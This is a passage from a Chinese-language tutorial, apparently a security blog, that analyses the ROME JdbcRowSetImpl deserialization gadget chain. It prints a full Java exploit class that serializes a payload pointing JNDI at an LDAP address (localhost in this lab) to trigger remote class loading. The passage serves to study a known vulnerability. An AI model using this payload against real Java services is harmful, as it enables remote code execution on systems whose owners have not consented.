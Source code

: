 ### JdbcRowSetImpl 利用链

这条链子和之前的没关系，产生漏洞是因为当时链尾的时候的调用任意 getter 方法。一开始我们是去调用 `TemplatesImpl#getOutputProperties()` 的，现在我们用 `JdbcRowSetImpl` 这条链子

关于这条链子分析比较简单，它的触发点是在 `getDatabaseMetaData()` 方法处，它调用了 `connect()` 方法

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/getDatabaseMetaData.png)

后续的就是一个 Jndi 注入的，原理在 Fastjson 篇已经说的很清楚了，这里不再赘述。

构造 EXP

JAVA

```
public class JdbcRowSetImplEXP {

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        // EXP为我们的恶意类
        String url = "ldap://127.0.0.1:1230/ExportObject";
        jdbcRowSet.setDataSourceName(url);


        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowSet);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean, "123");

        serialize(hashMap);
        unserialize("ser.bin");
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```
